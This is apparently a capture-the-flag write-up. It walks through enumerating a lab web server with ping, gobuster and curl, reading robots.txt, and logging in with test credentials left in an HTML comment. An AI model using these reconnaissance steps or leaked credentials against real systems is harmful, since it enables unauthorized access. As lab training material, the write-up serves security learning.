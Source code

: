#Step 1


Ping target ip
```bash
ping <target ip>
```

Ping sucessfull

#Step 2

Find other directories on the backend

```bash 
gobuster dir -u http://83.136.252.57:54764/ -w /usr/share/dirb/wordlists/common.txt
```

This command calls gobuster with the dir switch and passes the target system with the ip and port number along with a word list that commons preinstalled on kali 
Below is the output of the command.

Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 281]
/.htpasswd            (Status: 403) [Size: 281]
/.htaccess            (Status: 403) [Size: 281]
/index.php            (Status: 200) [Size: 990]
/robots.txt           (Status: 200) [Size: 45]
/server-status        (Status: 403) [Size: 281]
/wordpress            (Status: 301) [Size: 327] [--> http://83.136.252.57:54764/wordpress/]
Progress: 4614 / 4615 (99.98%)


We can see from the http codes that only index.php and robots.txt are directoryly avaible on this server. /wordpress is also availabe but 301 indicates that the location has been moved and my request will be redirected.


#Step 3

Get robots.txt 

	──(davidingraham㉿kaliVm)-[~]
└─$ curl http://83.136.252.57:54764/robots.txt
User-agent: *
Disallow: /admin-login-page.php

#Step 4

Visit the http://83.136.252.57:54764/admin-login-page.php
Inspect the page source to reveal the follwing html

```html

<div class="container">
                <label for="username"><b>Username</b></label>
                <input name="username" placeholder="Username" type="text">

                <label for="password"><b>Password</b></label>
                <input name="password" placeholder="Password" type="password">

                <!-- TODO: remove test credentials admin:password123 -->

                <button type="submit" formmethod="post">Login</button>
            </div>
```



We see a comment the developer left with the login credentials to the page. We use these credentials to login and visit a page that reveals the flag.                                                                                        
